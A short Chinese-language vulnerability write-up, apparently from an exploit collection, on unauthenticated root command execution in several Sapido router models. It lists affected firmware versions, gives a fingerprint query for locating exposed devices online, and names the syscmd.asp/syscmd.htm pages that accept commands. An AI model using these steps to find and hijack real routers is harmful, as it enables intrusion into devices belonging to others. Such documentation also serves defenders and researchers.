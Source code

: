 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```

## 网络测绘

```
app="Sapido-路由器"
```

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](./images/202202162237726.png)

访问目标：

```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](./images/202202162237444.png)

直接输入就可以命令执行了

